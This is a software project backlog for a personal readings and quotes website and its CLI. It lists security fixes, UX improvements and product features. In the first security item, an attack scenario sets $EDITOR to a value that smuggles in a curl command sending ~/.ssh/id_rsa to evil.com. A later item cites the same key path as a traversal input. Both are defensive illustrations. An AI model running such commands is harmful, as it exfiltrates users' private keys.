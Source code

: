 # BACKLOG

Last groomed: 2025-10-27
Analyzed by: 7 specialized perspectives (complexity, architecture, security, performance, maintainability, UX, product)

---

## Now (Sprint-Ready, <2 weeks)

### [Security] Remove shell:true from CLI Editor - Command Injection Risk

**File**: `cli/lib/editor.ts:26`
**Perspectives**: security-sentinel
**Impact**: HIGH - Enables command injection via $EDITOR environment variable
**Attack Scenario**: `export EDITOR='vi; curl evil.com/$(cat ~/.ssh/id_rsa)' && npm run vanity -- quote add`→ Private key exfiltration
**Fix**: Remove`shell: true` from spawnSync call - not needed when passing editor as first arg
**Effort**: 5m | **Risk**: HIGH
**Acceptance**: CLI commands execute without shell interpretation, editor still opens correctly

### [UX - CRITICAL] Fix TypewriterQuotes Silent Failure

**File**: `src/app/components/TypewriterQuotes.tsx:30`
**Perspectives**: user-experience-advocate
**Impact**: Homepage becomes permanently broken with no user feedback when fetch fails
**Current**: Error only logged to console, user sees "Loading quotes..." indefinitely
**Fix**: Add error state with visible message and retry button

```typescript
const [error, setError] = useState<string | null>(null);
// Show: "Unable to load quotes. Please refresh the page." + Retry button
```

**Effort**: 20m | **Value**: Homepage resilient to network failures
**Acceptance**: Network failure shows user-visible error with recovery action

### [Product - HIGH VALUE] Add Search to Readings Page

**Scope**: New feature - search by title/author for 373+ books
**Perspectives**: product-visionary, user-experience-advocate
**Business Case**:

- 373 readings collection unusable without search - users must scroll entire list
- Transforms "browse-only" into "instant discovery" experience
- 80/20 high-leverage: Unlocks value of entire reading collection
- Missing table-stakes feature for content library
  **Implementation**:
- Add search input to ReadingsHeader
- Filter readings by title/author match
- Preserve existing favorites filter
- Show "no results" state with clear filters button
  **Effort**: 2h | **Value**: Critical usability unlock for large collection
  **Acceptance**: Users can type query and see instant filtered results, clear button resets, mobile-responsive

---

## Next (This Quarter, <3 months)

### [UX] Improve Error Messages Across App

**Files**: `src/app/readings/page.tsx:116`, CLI error handlers
**Perspectives**: user-experience-advocate, maintainability-maven
**Why**: Generic "An error occurred" messages with no context or recovery guidance
**Approach**:

- Readings page: Specific error messages with visual design (icons, retry button)
- CLI: Detailed error context (sharp failures → "Image corrupted, try re-saving")
- TypeScript discriminated unions for error types
  **Effort**: 3h | **Impact**: Users can self-recover vs abandoning, reduced support burden

### [UX] Add Mobile-Friendly Reading Card Interactions

**File**: `src/app/components/readings/ReadingCard.tsx`
**Perspectives**: user-experience-advocate
**Why**: Hover-only interactions exclude mobile users (40%+ traffic), audiobook/favorite badges invisible
**Approach**:

- Show audiobook/favorite badges always (not just on hover)
- Add "Tap for details" indicator on mobile
- Improve keyboard focus visibility
  **Effort**: 45m | **Impact**: Mobile users discover card features, WCAG compliance improved

### [Security] Strengthen Path Traversal Protection in CLI

**File**: `cli/commands/reading.ts:233`
**Perspectives**: security-sentinel
**Why**: Basic `..` check but missing URL encoding bypasses, no absolute path validation
**Attack**: User provides `/Users/phaedrus/.ssh/id_rsa` → accepted, copied to public/images/
**Fix**:

- Resolve to absolute path, verify within project root
- Check for encoded characters (`%2e`, `%2f`)
- Validate file extension allowlist
- Enforce 10MB max file size
  **Effort**: 20m | **Risk**: MEDIUM
  **Acceptance**: Paths outside project rejected, encoded bypasses blocked

### [Architecture] Clarify ReadingsList Component Purpose

**File**: `src/app/components/readings/ReadingsList.tsx`
**Perspectives**: architecture-guardian (from previous backlog)
**Why**: ReadingsList vs YearSection purpose unclear - potential for consolidation
**Approach**: Document when to use each component, or remove redundant abstraction
**Effort**: 30m (investigation + documentation) | 2-3h (consolidation if needed)

---

## Soon (Exploring, 3-6 months)

- **[Product] Reading Statistics Dashboard** - Show reading pace, books per year, favorite authors analytics (requires grouping logic refactor, visualization library)
- **[Product] Export Functionality** - Export reading list to CSV/JSON for Goodreads import, backup (straightforward data transformation)
- **[Architecture] Extract Domain Repository Layer** - Isolate markdown storage from domain logic, enables future CMS migration (4h, future-proofs data layer)
- **[Product] Tags/Categories for Readings** - Genre tagging, multi-category filtering (requires content schema update, CLI changes)
- **[UX] Advanced Search & Filters** - Filter by year finished, audiobook status, date ranges, author (extends search feature from "Now")
- **[UX] Filter State Persistence** - Save filter preferences to localStorage (1h, nice quality of life)
- **[Performance] Parallel File Reads at Build Time** - 900 markdown files sequentially read, use Promise.all (1-2s build speedup, no user impact)
- **[UX] Keyboard Shortcuts** - Toggle favorites with 'f' key, navigation shortcuts (1h)
- **[Architecture] Refactor Layout System** - Move from global container + breakout utils to page-controlled containment (3-4h, eliminates negative margin hacks)

---

## Later (Someday/Maybe, 6+ months)

- **[Platform] RSS Feed for New Readings** - Subscribers notified of new books added
- **[Product] Public API** - JSON endpoints for readings/quotes data, enable third-party integrations
- **[Integration] Goodreads Sync** - Auto-import finished books from Goodreads API
- **[Product] Social Sharing** - Generate book recommendation cards for Twitter/social media
- **[Platform] Progressive Web App** - Offline reading list access, add-to-homescreen
- **[UX] Animated Filter Transitions** - Smooth fade transitions when filtering (polish)

---

## Learnings

**From this grooming session:**

- **CLI is the bottleneck**: reading.ts god object (988 lines) blocking CLI feature velocity - extract before adding more commands
- **Speculative generality trap**: 539 lines of unused hooks (useFormState, useSearchFilters) built for "future needs" that never came - delete immediately
- **Search is the unlock**: 373-book collection unusable without search - this single feature transforms UX from "browse-only" to "instant discovery"
- **Error visibility gap**: Multiple silent failures (TypewriterQuotes, generic errors) - users don't see when things break
- **Architecture is solid**: Zero circular dependencies, clean layers, excellent SSRF protection - focus on product features, not rewrites
- **Security mostly good**: One critical (docker-compose credentials), two high (command injection), rest is defense-in-depth polish
- **Performance already optimized**: Team eliminated 5.3MB dependencies, uses static generation, proper lazy loading - only minor wins left (unused deps)
- **Mobile UX needs attention**: Hover-only interactions exclude 40% of users, responsive layouts need polish

**Key Insight**: This codebase demonstrates excellent engineering fundamentals (architecture, security testing, performance). Primary opportunities are:

1. **Product value** (search for large collections)
2. **Developer velocity** (CLI refactoring to enable feature growth)
3. **UX polish** (error visibility, mobile interactions)

NOT rewrites or architectural overhauls - the foundation is sound.

---

_Run /backlog-groom quarterly to maintain strategic clarity and discover high-leverage opportunities._
